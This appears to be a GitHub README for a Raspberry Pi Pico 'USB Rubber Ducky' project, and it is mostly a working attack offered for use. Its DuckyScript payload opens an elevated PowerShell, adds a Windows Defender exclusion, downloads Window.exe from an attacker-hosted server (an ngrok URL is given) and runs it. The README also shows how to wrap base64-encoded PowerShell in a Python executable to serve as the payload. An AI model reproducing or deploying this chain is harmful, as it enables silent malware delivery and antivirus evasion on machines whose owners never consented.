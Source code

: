 # USB Ducky

## Description

A USB Rubber Ducky is a device that looks like an ordinary USB flash drive but is actually a small computer that can very quickly execute a pre-programmed series of commands on a computer. It is usually used to execute many commands on a computer in a short time without requiring user interaction.

# You better use it at your own risk and I'm not responsible for any damage bla bla bla...

### First clone the repro.

```bash
git clone https://github.com/un9nplayer/USB-Ducky.git
cd USB-Ducky
```

 I hope you guys using this device called pi pico: https://amzn.in/d/jh3Ejsa
 
<img src="https://raw.githubusercontent.com/un9nplayer/USB-Ducky/main/img/pi%20pico.jpg" alt="img" width="500" height="500"/>

Setup your USB here check the video: [Network Chuck](https://www.youtube.com/watch?v=e_f9p-_JWZw)

## Main guide

You can create your own payloads by changing the Window.py file here: Inject your base64 data "Write-Host 'Hello, Im @Un9nplayer!!!' -ForegroundColor Red; pause"

````bash
import subprocess
import base64

u_c = "V3JpdGUtSG9zdCAnSGVsbG8sIEltIEBVbjlucGxheWVyISEhJyAtRm9yZWdyb3VuZENvbG9yIFJlZDsgcGF1c2U="
de_c = base64.b64decode(u_c).decode('utf-8')

subprocess.call(["powershell", "-Command", de_c])
````

### Convert the Window.py to Window.exe:
````bash
pip install pyinstaller
pyinstaller --onefile Window.py
````
Find the dist dir with Window.exe.


### Check Payload.dd file changes the {your-hosted-web-server} where you host the "Window.exe" file.

````
GUI r
DELAY 1000
STRING powershell 
ENTER
DELAY 1000
STRING Start-Process powershell.exe -ArgumentList "-NoProfile -ExecutionPolicy Bypass -Command `"& {Add-MpPreference -ExclusionPath 'C:\win'; Start-Sleep -Seconds 0;}`"" -Verb RunAs
ENTER
DELAY 1000
ALT y
DELAY 1500
STRING cd / ; mkdir win ; cd win ; echo (wget 'https://{your-hosted-web-server}/Window.exe' -OutFile Window.exe) > b.ps1 ; powershell -ExecutionPolicy ByPass -File b.ps1
ENTER
DELAY 5000
STRING Start-Process -FilePath ".\Window.exe"
ENTER

````


### Now host the Window.exe
````bash
ngrok http --domain=longhorn-discrete-flamingo.ngrok-free.app 80

On new teb

Python3 -m http.server 80 
````

Final URL: https://longhorn-discrete-flamingo.ngrok-free.app/Window.exe

## Here check the Video:

[![Watch the video](https://img.youtube.com/vi/EqfmRErQy2c/0.jpg)](https://www.youtube.com/watch?v=EqfmRErQy2c)
